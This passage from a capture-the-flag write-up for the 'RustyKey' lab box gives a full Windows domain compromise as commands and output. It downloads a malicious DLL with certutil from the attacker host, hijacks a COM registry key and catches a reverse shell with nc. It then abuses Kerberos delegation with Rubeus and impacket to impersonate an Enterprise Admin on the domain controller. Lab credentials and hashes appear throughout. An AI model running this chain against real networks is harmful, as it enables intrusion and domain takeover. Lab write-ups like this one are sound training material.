`Terminal -1 `
```bash
PS C:\Users\Public> certutil -urlcache -f http://10.10.17.130/7z.dll 7z.dll
certutil -urlcache -f http://10.10.17.130/7z.dll 7z.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

`Terminal -2`
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/Misc-PowerShell-Stuff]
└─$ python3 -m http.server 80
```

Now we point the legitemate CLSID to our evil 7z.dll file 

```Powershell
PS C:\Users\Public> reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Users\Public\7z.dll" /f
```

After that we can verify 
```Powershell
PS C:\Users\Public> reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"
reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Users\Public\7z.dll
    ThreadingModel    REG_SZ    Apartment

PS C:\Users\Public> 
```

`Shell`
```Powershell
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.17.130] from (UNKNOWN) [10.129.232.127] 54612
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
rustykey\mm.turner

C:\Windows>
```

we got the shell mm.turner


we can use rubeus to request an TGT ticket from the shell
i tried to abuse RBCD from the linux machine using impacket

```bash
PS C:\Users\mm.turner> .\Rubeus.exe tgtdeleg /nowrap
```

we can use the `tgtdeleg` module from rubeus to get an kirbi ticket and convert the kribi to ccache using impacket 

as we can see the user have restrictive logon and the user doesnt cannot a machine i tried on all the account none of them have the priveliege to 

also we can see the adminstrator cant be delegated 

```bash
PS C:\Users\mm.turner> Get-DomainUser Administrator -Properties useraccountcontrol,memberof
Get-DomainUser Administrator -Properties useraccountcontrol,memberof

                                 useraccountcontrol memberof                                                           
                                 ------------------ --------                                                           
NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, NOT_DELEGATED {CN=Group Policy Creator Owners,CN=Users,DC=rustykey,DC=htb, CN=...
```

but their is backupadmin  who we can delegate

```bash
PS C:\Users\mm.turner> Get-DomainUser backupadmin  -Properties useraccountcontrol,memberof
Get-DomainUser backupadmin  -Properties useraccountcontrol,memberof

                  useraccountcontrol memberof                                        
                  ------------------ --------                                        
NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD CN=Enterprise Admins,CN=Users,DC=rustykey,DC=htb


PS C:\Users\mm.turner> 
```

Now we give the rights to delegate to IT-3 then

```bash
PS C:\Users\mm.turner> Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

then we can verify it using this AD module

```bash
PS C:\Users\mm.turner> Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb
DNSHostName                          : dc.rustykey.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : dee94947-219e-4b13-9d41-543a4085431c
PrincipalsAllowedToDelegateToAccount : {CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb}                                                                                
SamAccountName                       : DC$
SID                                  : S-1-5-21-3316070415-896458127-4139322052-1000
UserPrincipalName  
```

then using this tool we can convert the password to ntlm hash which we can used delegate the backupadmin

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/Krb5KeyGen]
└─$ python3 krb5_keygen.py 'IT-COMPUTER3$' 'Rusty88!' rustykey.htb
Key NTLM (RC4-HMAC): b52b582f02f8c0cd6320cd5eab36d9c6
Key AES128: 388e15de9708e8d767ffd7efa5ac7db3
Key AES256: d1d2c4430bbfea260baf5c8bab58586417d815c3ea2a6e4ba9a47690c14724d9
```
>computer accounts natively produce **forwardable** S4U tickets

using rubues to request an cifs service ticket for the backupadmin user
```Powershell
PS C:\Users\mm.turner> .\Rubeus.exe s4u /user:IT-COMPUTER3$ /rc4:b52b582f02f8c0cd6320cd5eab36d9c6 /impersonateuser:backupadmin /msdsspn:cifs/dc.rustykey.htb /ptt
```

then we can save the ticket on our attacker machine and covnver the kirbi file to ccache

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ impacket-ticketConverter turner.kirbi  backupadmin
```

with the cifs ticket loaded (via `KRB5CCNAME`), we authenticate to the DC over Kerberos and land a shell as backupadmin

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Rustkey]
└─$ impacket-wmiexec -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin
```
